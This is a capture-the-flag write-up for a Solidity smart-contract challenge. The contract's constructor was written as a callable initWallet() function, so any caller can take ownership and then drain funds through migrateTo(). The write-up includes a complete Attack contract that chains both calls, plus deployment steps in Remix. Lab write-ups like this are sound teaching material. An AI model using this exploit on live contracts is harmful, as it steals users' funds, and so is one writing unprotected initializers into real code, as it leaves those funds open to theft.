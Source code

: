 ## WriteUp

The challenge1.sol smart contract is vulnerable. The constructor was not set well. Instead of constructor, it is a callable function.

There is two step :

# Step 1 : 

Call the function initWallet() to gain the owner rights.

# Step 2 : 

Call the function migrateTo("youraddress") to steal his money.




# AttackContract

With the blockchain running, it can be solve with this smart contract 


`// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./chall1.sol";

contract Attack {
    Challenge1 public victim;
    mapping(address => uint256) balances;


    constructor(address _victimAddress)payable {
        victim = Challenge1(_victimAddress);
    }

    function beginAttack() external payable {
        victim.initWallet();
        victim.migrateTo(0x723c3E5417cae4425Ae95c2E94E80163Ae3B8101);
    }
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }


}
`


First deploy this contract in remix with the address of the challenge that the website give you.

Then call beginAttack().

The address in migrateTo() is yours.
